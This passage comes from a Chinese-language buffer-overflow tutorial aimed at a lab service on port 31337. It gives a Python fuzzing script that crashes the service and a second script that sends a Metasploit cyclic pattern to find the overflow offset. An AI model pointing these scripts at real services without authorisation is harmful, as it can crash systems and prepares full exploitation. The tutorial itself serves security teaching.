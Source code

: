 当然也能正常运行。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qxnrGgsxVFCnOjUeLjwDQp4d4WftJsjA2EgTIES5VKQCTLjHVy6KWKA/640?wx_fmt=png)

下一步就可以开始尝试从少到多的模糊测试。脚本如下:

```
#!/usr/bin/python
import sys, socket#1.导入库函数
from time import sleep

buffer = b"A" * 10#2.制定输入的内容
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.72.190', 31337))#3.SOCKET 连接
timeout = 5
s.settimeout(timeout)

while True:
    try:

        s.send(buffer + b"\n\r")#4.发送制定内容
        print("Send: {0}".format(buffer))#5。输出
        print("Fuzzing with {} bytes".format(len(buffer)))#6.输出字符串长度
        data = s.recv(1024)
        print("Received: {0}".format(data))#7.看看回显内容
        buffer += b"A" * 10
    except:
        print("Fuzzing crashed at {} bytes".format(len(buffer)))#8.等到程序崩溃为止
        sys.exit(0)
```

保存好以后运行程序大概会在接收 150 个字符串以后开始崩溃。  

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qfn902PMjToDgRS5kPpp1Kr6qcgQsFTDkpmlKQQJEJqpQtFJCWYAgXw/640?wx_fmt=png)

03

_精准定位_

确定完程序接收 150 个字符串左右输入以后会崩溃，接下来就是精准确认具体是多少个字符串程序会崩溃首先需要借用 kali 自带的字符串生成工具在 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 生成 200 个字符串

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qtrfYRfSrn4kX3PlH6UhiauicicaePtnJ8bD1XPkLayYd3R9GpuDMJssGg/640?wx_fmt=png)

接下来就是一个新的脚本了。主要就是复制刚才生成好的字符串然后发送过去。

```
#!/usr/bin/python
import socket
import sys

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.72.193',31337))
timeout = 5
s.settimeout(timeout)
while True:
    try:
        buffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
        s.send(buffer + b"\n\r")
        print("Send: {0}".format(buffer))
        data = s.recv(1024)
        print("Received: {0}".format(data))
    except:
        print("overflow success")
        sys.exit(0)
```